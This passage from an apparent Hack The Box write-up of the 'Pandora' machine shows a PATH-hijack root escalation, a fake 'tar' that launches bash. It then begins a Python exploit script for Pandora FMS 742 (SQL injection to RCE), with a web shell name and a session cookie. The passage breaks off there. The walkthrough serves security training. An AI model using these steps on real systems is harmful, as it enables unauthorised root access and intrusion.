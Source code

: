 ```bash
export PATH=/tmp:$PATH
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2019.png)

Now in `/tmp`{: .filepath} i created a evil file called `tar`:

```bash
echo -e '#!/bin/bash \nbash' > /tmp/tar
chmod +x tar
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2020.png)

Runnning the binary this running my evil tar.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Pandora/Untitled%2021.png)

**HABEMUS ROOT!!!**

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`pandora-getshell.py`

```python
#! /usr/bin/env python3

#### Author: 0xEtern4lW0lf
#### Created: 24 Dez 2022
#### Description: Exploit Pandora FMS 742
#### CVE: CVE-2021-32099 (SQL Injection)
#### CVE: CVE-2021-32099 (RCE)
#### Refer: https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/

#### ========= MODULES =========

import argparse
import sys
import time
import socket
from threading import Thread
import requests
import urllib.parse
import telnetlib

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

webName = '0xEtern4lW0lff.php'
cookie = 'tk91kn9qjfulm7t01illrnr2rv'

#### ========= FUNCTION =========

```